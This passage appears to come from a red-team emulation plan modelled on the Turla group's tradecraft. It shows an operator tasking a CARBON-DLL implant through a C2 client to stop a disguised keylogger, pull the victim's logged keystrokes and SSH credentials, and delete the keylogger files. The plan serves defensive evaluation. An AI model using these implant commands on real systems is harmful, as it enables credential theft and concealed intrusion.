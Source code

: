 * Within the SSH session, **type do not copy** the follow commands as
`Adalwolfa`:

1. `sudo nano /var/www/html/index.html`
1. Go to line 198 with `CTRL + SHIFT + -` then type 198
1. Replace `Apache2 Ubuntu Default Page` with `Adalwolfa's Page`
1. save the file with `CTRL + X`, `Y`, `enter`
1. Type `exit` to exit from the SSH session

:arrow_right: Return to the Kali C2 server and task the CARBON-DLL implant
on Adalwolfa's workstation to kill the keylogger process.

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 1, "cmd": "taskkill /IM wingtsvcupdt.exe /F"}'
```

* Wait 1 minute and then task the CARBON-DLL implant to exfiltrate the data written
to the keylogger file:

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 2, "cmd": "type %temp%\\~DFA512.tmp"}'
```

:heavy_exclamation_mark: Verify that the keystrokes were logged containing the website information and Adalwolfa's SSH credentials.

* Wait 1 minute and then task the CARBON-DLL implant to remove the keylogger and keylogger output file:

```bash
./evalsC2client.py --set-task c6f2aa03 '{"id": 3, "cmd": "del /Q C:\\Windows\\Temp\\wingtsvcupdt.exe %temp%\\~DFA512.tmp"}'
```

### :moyai: Source Code

* [CARBON-DLL Orchestrator](../../Resources/Carbon/Orchestrator/README.md)
  * [Task Execution](../../Resources/Carbon/Orchestrator/src/tasking.cpp#L388)
* [CARBON-DLL Comms Lib](../../Resources/Carbon/CommLib/README.md)
  * [Beacon and task/payload retrieval over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L313)
  * [Upload task output over HTTP](../../Resources/Carbon/CommLib/src/CommLib.cpp#L342)
* [Keylogger](../../Resources/Keylogger/README.md)
  * [Current hostname discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L41)
  * [Token manipulation and session discovery to restart in active session](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L579)
  * [Keylogging hook routine](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L349)
  * [Set keylogging hook](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L719)
  * [Active window discovery](../../Resources/Keylogger/Keylogger/Keylogger/keylogger.cpp#L419)

### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://blog.talosintelligence.com/2021/09/tinyturla.html>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
